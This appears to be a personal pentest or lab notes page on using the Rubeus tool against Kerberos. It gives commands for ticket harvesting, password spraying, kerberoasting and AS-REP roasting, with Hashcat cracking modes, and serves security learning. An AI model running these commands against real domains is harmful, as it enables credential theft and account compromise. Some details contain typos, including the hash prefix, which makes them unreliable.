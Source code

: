 # Using Rubeus

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux’s `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current
# machine. Probably works best when run on a domain
# controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users and
# generate a ticket giving ticket for successful
# authentications. (Can trigger account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable
# accounts using Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## References

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 6, 2021
